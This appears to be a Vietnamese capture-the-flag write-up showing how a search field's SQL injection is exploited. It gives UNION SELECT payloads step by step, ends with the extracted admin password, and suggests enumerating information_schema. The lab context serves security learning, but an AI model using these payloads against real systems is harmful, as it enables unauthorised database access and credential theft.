




feature search bị dính lỗi SQL injection chứ không phải login nhé =))) 

mình truyền payload `a'union select 1,2,3 --`

khẳng định có thể trích xuất data từ đây
tiếp tục thử sai với payload: `a'union select password from users where username='admin' --a`

báo lỗi khác số cột, mình thử thêm cột vào xem sao 
payload: `a'union select 1,password from users where username='admin' --a`

lấy password

NOTE: bài này may mắn khi mình thử cột là password và table là users (đa số dev non trình sẽ đặt tên db như vậy). Nếu không ae phải tìm ra table_name và column_name từ information_schema nhé

`soong1002cuivc`

